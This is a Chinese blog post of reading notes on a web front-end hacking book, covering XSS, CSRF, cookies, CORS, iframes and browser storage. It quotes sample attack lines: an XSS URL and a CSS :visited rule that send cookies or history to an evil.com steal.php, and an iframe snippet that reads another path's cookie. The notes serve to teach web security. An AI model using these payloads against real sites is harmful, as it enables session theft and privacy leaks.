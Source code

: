 ```yaml
---
title: 读《web前端黑客技术揭秘》
date:   2018/6/1
categories: Reading
tags: 读书笔记 
---
```


### XSS 跨站脚本攻击
如果攻击者构造出如下链接：
http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)
浏览器解释执行后，下面的语句：
eval(location.hash.substr(1));
会变为：
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.
cookie)')
Cookies 会话信息就会被盗取到黑客的网站上

### CSRF 
CSRF 是跨站请求伪造，CSRF 会借用目标用户的权限做一些借刀杀人的事（注意是“借用”，而不是“盗取”
目标权限），然后去做坏事，
“盗取”通常是XSS（跨站脚本攻击）最喜欢做的事。

### APT
APT（持久化威胁）攻击
如果是个反射型的XSS，IE 8/IE 9/Chome 直接就给拦截了。

### 无状态的HTTP
HTTP 是无状态的，那么每次在连接时，服务端如何知道你是上一次的那个？
这里通过Cookies 进行会话跟踪，第一次响应时设置的Cookies 在随后的每次请求中都会发
送出去。Cookies 还可以包括登录认证后的身份信息。

### 响应资源的类型与字符集
Content-Type: text/html;charset=gbk
响应资源的类型与字符集。针对不同的资源类型会有不同的解析方式，这个会影响浏
览器对响应体里的资源解析方式，可能因此带来安全问题。字符集也会影响浏览器的解码
方式，同样可能带来安全问题。

### Set-Cookie
Set-Cookie: USERID=c7888882e039b32fd7b4d3; expires=Tue, 01 Jan 2030
00:00:00 GMT; path=/; domain=.foo.com
每个 Set-Cookie 都设置一个Cookie（key=value 这样），随后是如下内容。
expires：过期时间，如果过期时间是过去，那就表明这个Cookie 要被删。
path：相对路径，只有这个路径下的资源可以访问这个Cookie。
domain：域名，不允许设为下一级子域或其他外域，可以指定为父级域
HttpOnly：标志（默认无，如果有的话，表明Cookie 存在于HTTP 层面，不能被客户
端脚本读取）。
Secure：标志（默认无，如果有的话，表明Cookie 仅通过HTTPS 协议进行安全传输）。但是Secure Cookie 对于客户端脚本来说是可读写的。可读意味着
Secure Cookie 能被盗取，可写意味着能被篡改。

### iframe
攻击者入侵一个网站后，可以通过iframe 嵌入自己的网马页面，用户访问该网站后，被嵌入的网马页面就会执行

当网站页面使用iframe 方式嵌入一个页面时，
我们约定网站页面是父页，而被嵌入的这个页面是子页。那么父页与子页之间如何跨文档读写数据？
如果父页和子页之间是同域，那就很容易，父页可以通过调用子页的contentWindow
来操作子页的DOM 树，同理，子页可以调用父页的contentWindow 来操作父页的DOM 树。
如果它们不同域，则必须遵守同源策略，但子页还是可以对父页的location 值进行写操作，
这样可以让父页重定向到其他网页，不过对location 的操作仅仅只有写权限，而没有读权
限，这样就不能获取到父页location URL 的内容，否则有可能会造成隐私数据泄漏，

### 跨域
 www.foo.com（来源域）的AJAX 向www.evil.com（目标域）发起了请求，浏览器会
给自动带上Origin 头，如下：
Origin: http://www.foo.com
然后目标域要判断这个Origin 值，如果是自己预期的，那么就返回：
Access-Control-Allow-Origin: http://www.foo.com
表示同意跨域

如果目标域不设置Access-Control-Allow-Origin: http://www.foo.com，那么隐私数据可
以被偷到吗？答案是肯定的。虽然浏览器会报权限错误的问题，但实际上隐私数据已经被
目标域的steal.php 接收到了。

### 跨域带上会话
默认情况下，跨域不会带上目标域的会话（Cookies 等），需要设置xhr 实例的withCredentials 属性为true（IE 还不支持），同时目标域的steal.php 必须设置如下：
<?php
header("Access-Control-Allow-Origin: http://www.foo.com");
header("Access-Control-Allow-Credentials: true"); // 允许跨域证书发送
//...
?>
有 一 点 需 要 注 意 ， 如 果设置了Access-Control-Allow-Credentials 为true ， 那么
Access-Control-Allow-Origin 就不能设置为*通配符

### 跨路径读取Cookie
那么有什么办法跨路径读取Cookie？比如，/evil/路径想读取/admin/路径的Cookie。很简单，通过跨iframe 进行
DOM 操作即可，/evil/路径下页面的代码如下：
```javascript
xc = function(src){
var o = document.createElement("iframe"); // iframe 进入同域的目标页面
o.src = src;
document.getElementsByTagName("body")[0].appendChild(o);
o.onload = function(){ // iframe 加载完成后
d = o.contentDocument || o.contentWindow.document;
// 获取document 对象
alert(d.cookie); // 获取cookie
};
}('http://a.foo.com/admin/index.php');
```
所以，通过设置path 不能防止重要的Cookie 被盗取。

### 本地Cookie 与内存Cookie
如果没设置过期时间，就是内存Cookie，这样的Cookie 会随着浏览器的关闭而从内存中消失；如果设置了
过期时间是未来的某个时间点，那么这样的Cookie 就会以文本形式保存在操作系统本地，
待过期时间到了才会消失。

### P3P
HTTP 响应头的P3P（Platform for Privacy Preferences Project）字段是W3C 公布的一项
隐私保护推荐标准。该字段用于标识是否允许目标网站的Cookie 被另一个域通过加载目标
网站而设置或发送，仅IE 执行了该策略。
比如，evil 域通过script 或iframe 等方式加载foo 域（此时foo 域被称为第三方域）。
加载的时候，有两种场景

1. 浏览器是否会允许foo 域设置自己的Cookie

    在IE 下默认都是不允许第三方域设置域已有的Cookie的，除非foo 域在``响应的时候带上P3P 字段``

2. 浏览器是否允许发送请求到foo 域时，带上foo 域已有的Cookie

    发送的Cookie 如果是内存Cookie，则无所谓是否有P3P 属性，就可以正常发送；如果
    是本地Cookie，则这个本地Cookie 必须拥有P3P 属性，否则，即使目标域响应了P3P 头
    也没用。
### IE的userData
 ```javascript
 function set_ud(key,value) {
    var a = document.getElementById('x'); // x 为任意div 的id 值
    a.addBehavior("#default#userdata");
    a.setAttribute(key,value);
    a.save("db");
}
function get_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.load("db");
    alert(a.getAttribute(key));
}
function del_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.setAttribute(key, ""); // 设置为空值即可
    a.save("db");
}
window.onload = function(){
    set_ud('a','xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'); // 设置
    get_ud('a'); // 获取a 的值
    del_ud('a'); // 删除a 的值
    get_ud('a'); // 获取a 的值
};
 ```
### FlashCookie
```actionScript
function set_lso(k:String="default", v:String=""):void
{ // 设置值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.data[k] = v;
    shared.flush();
}
function get_lso(k:String="default"):String
{ // 获取值
    var str:String = "";
    var shared:SharedObject = SharedObject.getLocal("db");
    str = shared.data[k];
    return str;
}
function clear_lso():void
{ // 清空值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.clear();
}
```

### 函数劫持很简单
一般情况下，只要在目标函数触发之前，重写这个函数即可

### css
```css
#a2:visited {background: url(http://www.evil.com/css/steal.php?data=a2);}
```